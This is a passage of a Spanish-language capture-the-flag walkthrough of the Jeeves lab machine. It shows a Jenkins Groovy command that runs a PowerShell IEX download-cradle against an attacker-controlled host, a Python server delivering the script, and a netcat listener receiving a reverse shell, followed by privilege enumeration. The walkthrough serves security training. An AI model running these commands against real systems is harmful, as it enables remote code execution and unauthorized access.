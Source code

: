 ```groovy
cmd = "C:\\Windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/PS.ps1')"
cmd.execute().text
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.63 - - [10/Oct/2021 13:54:25] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.63] 49678
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins>
```

Ya nos encontramos dentro de la máquina como el usuario **kohsuke** y podemos visualizar la flag (user.txt).  Como utilizamos la ruta nativa de powershell, deberíamos tenermos un proceso igual que la architectura del sistema; esto lo podemos probar con los siguientes comandos:

```bash
PS C:\Users\Administrator\.jenkins> [Environment]::Is64BitOperatingSystem
True
PS C:\Users\Administrator\.jenkins> [Environment]::Is64BitProcess
True
PS C:\Users\Administrator\.jenkins>
```

En este punto nos queda escalar privilegios, así que vamos a enumerar un poco el sistema:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
PS C:\Users\Administrator\.jenkins>
```
